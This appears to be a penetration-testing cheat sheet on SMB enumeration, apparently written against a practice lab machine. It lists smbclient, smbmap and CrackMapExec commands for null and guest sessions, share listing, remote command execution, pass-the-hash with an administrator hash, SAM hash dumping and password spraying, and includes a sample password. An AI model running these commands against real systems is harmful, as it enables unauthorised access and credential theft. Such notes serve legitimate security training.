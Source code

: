 ```yaml
---
layout: default
title: SMB
parent: ENUMERATION
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References

[CME](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/)

## Smbclient
```csharp
// Testing for null sessions
smbclient -L \\10.10.10.175 -U %
smbclient -L \\10.10.10.175 -N
smbclient -L \\egotistical-bank.local -I 10.10.10.175 -N

// Testing guest account
smbclient -L \\10.10.10.175 -U 'Guest' -N
smbclient -L \\10.10.10.175 -U 'Guest%'
smbclient -L \\10.10.10.175 -U 'Guest%Guest'

// With credentials
smbclient -L \\10.10.10.175 -U 'user%pass'
smbclient -L \\egostistical-bank.local -I 10.10.10.175 -U 'user%pass'
```

## Smbmap
```csharp
// Try a null session, should leak domain
smbmap -H 10.10.10.175 -u '' -p ''

// With credentials
smbmap -H 10.10.10.175 -u 'user' -p 'pass'
smbmap -H 10.10.10.175 -d egotistical-bank.local -u fsmith -p pass

// Recursive directory listing of share
smbmap -H 10.10.10.175 -d egotistical-bank.local -u fsmith -p pass -R IPC$

// Running a command
smbmap -H 10.10.10.175 -u 'fsmith' -p 'Thestrokes23' -x 'ipconfig'
smbmap -H 10.10.10.175 -u 'fsmith' -p 'Thestrokes23' -x 'ipconfig' --mode psexec
```

## CrackMapExec
`CrackMapExec` is part of `Empire`. If `Empire` is installed, `CME` can run `Empire` modules directly, such as `Mimikatz`. See [this link](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/) for examples.

```csharp
// Testing for null sessions
crackmapexec smb 10.10.10.175 -d egotistical-bank.local --shares
crackmapexec smb 10.10.10.175 -u '' -p '' -d egotistical-bank.local --shares

// With credentials list SMB shares
crackmapexec smb 10.10.10.175 -u 'user' -p 'pass' -d egotistical-bank.local --shares

// Using a hash instead of a password (pass-the-hash)
crackmapexec smb 10.10.10.175 -u administrator -H 'aad3g435b51404eeaadfb435b51404ee:d9485863c1e9e05811aa40cbc4ab9dff' -d egotistical-bank.local

// Running commands
crackmapexec smb 10.10.10.175 -u Administrator -H 'aad3g435b51404eeaadfb435b51404ee:d9485863c1e9e05811aa40cbc4ab9dff' -d egotistical-bank.local -x 'whoami' --exec-method smbexec

// Dumping SAM hashes
crackmapexec smb 10.10.10.175 -u Administrator -H 'aad3g435b51404eeaadfb435b51404ee:d9485863c1e9e05811aa40cbc4ab9dff' --local-auth --sam

// Password spraying (location of target IP is important)
crackmapexec smb 10.10.10.175 -u ./wordlists/known-users -p 'pass'
```